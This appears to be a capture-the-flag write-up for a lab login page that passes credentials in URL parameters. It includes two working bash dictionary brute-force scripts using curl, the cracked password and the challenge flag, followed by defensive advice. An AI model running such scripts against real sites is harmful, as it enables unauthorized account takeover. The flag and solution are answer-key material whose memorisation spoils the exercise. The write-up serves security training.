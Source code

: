 # <span style="text-decoration: underline"> Brutforce </span>

- Tags : `brutforce` , `curl`, `guess`
- Server ip : `192.168.1.17 `
- Difficulty : <span style="color : orange">Medium</span>
___


# <span style="text-decoration: underline">problem</span>

Once common way of breaking into website is uisng brutforce. When we go to **signin** page and enter
|username|password|
|--|--|
|AAA|BBB|

and try to signin using those credentials, we are redirected to the folloing `URL` : **`http://192.168.1.17/?page=signin&username=AAA&password=BBB&Login=Login#`**

In the `URL` we can see the following parameters

|key|value|
|--|--|
|page|signin|
|username|AAA|
|password|BBB|
|Login|Login|

We can clearly see in the `URL` what we used as our `username` and `password`. This is clearly an old way of doing things because it expose the user credentials in plain text and on the `URL`



# <span style="text-decoration: underline">Solution</span>

To try a brutforce agains this `URL` all we need to do is change the value of `username` and `password`. It would take an infinit amount of timet ot try all the characters as **username** and **password** so a better way to do this would be using [`dictionary`](https://nordpass.com/blog/what-is-a-dictionary-attack/) based attack.

> A dictionary attack is a systematic method of guessing a password by trying many common words and their simple variations. Attackers use extensive lists of the most commonly used passwords, popular pet names, fictional characters, or literally just words from a dictionary – hence the name of the attack. They also change some letters to numbers or special characters, like “p@ssw0rd”.

It would still take way too long to guess both **username** and **password** so let's narrow down a bit our `username` wordlist. According to [this](https://lifehacker.com/the-top-10-usernames-and-passwords-hackers-try-to-get-i-1762638243) website the followings are the most commong `usernames`.

|username|count|percent|
|--|--|--|
| administrator| 77125 | 4.87%|
| Administrator| 53427| 24.15%|
| user1| 8575 | 3.88%|
| admin| 4935| 2.23%|
| alex| 4051| 1.83%|
| pos| 2321| 1.05%|
| demo| 1920| 0.87%|
| db2admin| 1654| 0.75%|
| Admin| 1378| 0.62%|
| sql| 1354| 0.61%|

We could also narrow down the **password** list like our **username** list (all though in realworld we should probably try a bigger list). Here is a list of website that propose a short list of commonly used password.

- https://en.wikipedia.org/wiki/Wikipedia:10,000_most_common_passwords
- https://github.com/DavidWittman/wpxmlrpcbrute/blob/master/wordlists/1000-most-common-passwords.txt
- https://cybernews.com/best-password-managers/most-common-passwords/
- https://nordpass.com/most-common-passwords-list/
- https://github.com/iryndin/10K-Most-Popular-Passwords/blob/master/passwords.txt
- https://techcult.com/most-common-passwords/

I have noticed that [this](git) repository contains a short list (1k) passwords that we can find in the [wikipedia](https://en.wikipedia.org/wiki/Wikipedia:10,000_most_common_passwords) page and this could be a good start.

All we have to do now is 

- Download the list of password
- Write some code to do the query using all the passwords
- And wait for the program to find the password

Here is a simple `shell` script to do the brutforce

> We will use `admin` as username first because it is one of the most used username for admin account.


```bash
#!/bin/bash

username="admin" # The username we
host="192.168.1.17" # The ip address of the machine
dictionary="passwords.txt" # Path to the dictionary (password list)
i=1 # A simple iterator to know howmany password have we tried

while IFS= read -r password;
do
	echo -n "trying [$i]: $password"
	curl -s "http://$host/?page=signin&username=$username&password=$password&Login=Login#" | grep flag > /dev/null # You can also get the password directly in the terminal by removing the "> /dev/null"
	if [ $? -eq 0 ]
	then
		printf "\n\n"
		echo "Found the password : $password"
		exit
	fi
	((i=i+1))
	printf "\33[2K\r"
done < $dictionary
```

If you do not desire to download anything then you can use the following script

```bash
HOST='192.168.1.17'
USERNAME='admin'
DICTIONARY=($(curl -s "https://raw.githubusercontent.com/DavidWittman/wpxmlrpcbrute/master/wordlists/1000-most-common-passwords.txt"))

for i in ${!DICTIONARY[@]};
do
	echo -n  "trying [$i]: ${DICTIONARY[$i]}"
	curl -s "http://$HOST/?page=signin&username=$USERNAME&password=${DICTIONARY[$i]}&Login=Login#" | grep flag > /dev/null # You can also get the password directly in the terminal by removing the "> /dev/null"
	if [ $? -eq 0 ]
	then
		printf "\n\n"
		echo "Found the password : ${DICTIONARY[$i]}"
		exit
	fi
	printf "\33[2K\r"
done
```

> If you try the script, do not forget to put the **right** `host` / `ip` address for `you`!

After executing our script, the script tells us that the password is `shadow`. so :

|username|password|
|--|--|
|admin|shadow|

# How to avoid the problem
This was once a common problem before where website exposed the user credentials directoly on the `URL` which itself is not encrypted. In moderndays we start

- Not sending credentials or importent information over [`GET`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/GET) method and start using [`POST`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/POST).
- We use [`ssl`](https://developer.mozilla.org/en-US/docs/Glossary/SSL) encryption and [`https`](https://developer.mozilla.org/en-US/docs/Glossary/https) to send our data over internet so even if someone get hold of our data they will have hard time decrypting it.
- Set up a maximum request length so that if a someone tries to send to many requests, they get blocked.
- 2 factor authentication so that even if you have the correct credential you will still need a mobile device or a third element to log in.
- A server could also guess if the user begind the screen is the right user depending on the user IP, location, behaviour and many other things to protect better the user account.


# Flag

```text
b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2
```